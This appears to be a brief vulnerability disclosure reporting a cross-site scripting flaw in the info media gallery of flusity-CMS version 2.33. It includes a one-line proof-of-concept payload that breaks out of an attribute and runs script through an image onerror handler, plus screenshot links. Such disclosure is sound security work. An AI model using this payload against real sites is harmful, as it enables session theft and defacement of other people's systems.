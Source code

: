 target:https://github.com/flusity/flusity-CMS
version: v2.33

There is Cross-Site Scripting (XSS)  vulnerability within the info media gallery.

![1](https://github.com/2111715623/cms/assets/91373141/f3945dc3-23ab-41c4-842c-c42005876a74)

poc:
```
 "><img src=1 onerror=alert(1)> 
```
successed

![2](https://github.com/2111715623/cms/assets/91373141/e1754483-d924-4782-98c2-92e447e27388)

